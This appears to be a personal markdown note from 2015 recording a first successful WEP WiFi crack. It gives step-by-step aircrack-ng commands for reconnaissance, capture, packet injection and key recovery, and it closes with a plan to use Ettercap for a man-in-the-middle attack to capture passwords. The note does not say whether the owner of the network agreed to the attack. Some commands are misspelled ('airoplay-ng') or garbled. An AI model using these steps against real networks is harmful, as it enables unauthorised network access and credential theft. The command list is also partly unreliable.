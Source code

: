 ##27/11/2015

Hacked WiFi for the first time! ![FOTO](http://i.imgur.com/PP0AThP.png)

#Steps/Commands

###Wireless Reconnaiccance:
**Window 1**
* iwconfig
* airmon-ng start wlan0
* airodump-ng "INTERFACE"
* Find information in table
  * ESSID
  * BSSID
  * Channel
  * Client's  MAC

###Wireless Equivalent Privacy(WEP):
**Window 1**
* airmon-ng
  * Find "INTERFACE"
* airodump-ng "INTERFACE"
* Find information in table
	
**New window 2**
* airodump-ng --bssid "BSSID" -c "Channel" -w wep_log "INTERFACE"

**New window 3** 
* ifconfig 
* Find own MAC

**New window 4**
* airoplay-ng -l 0 -a "BSSID" -h "client MAC" -e "name connection" "INTERFACE" --ignore-negative-one
* airoplay-ng -3 -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one

**New window 5**
* aireplay-ng -2 -p 0841 -c FF:FF:FF:FF:FF:FF -b "BSSID" -h "client MAC" "INTERFACE" --ignore-negative-one
* use this packet? ENTER

**Window 2** 
* Everything is fine if data is above 5000 
* Close window 2, 3, 4, 5

**First window**	
* clear
* aircrack-ng -a l -b "BSSID" -n 64 wep_log-01.cap
	
**_FIND PASSWORD!!!!_**

Next time: Script schrijven!

TODO: Ethercap opzoeken (Hoe wachtwoorden "vangen" !?) -> Man in the middle attack
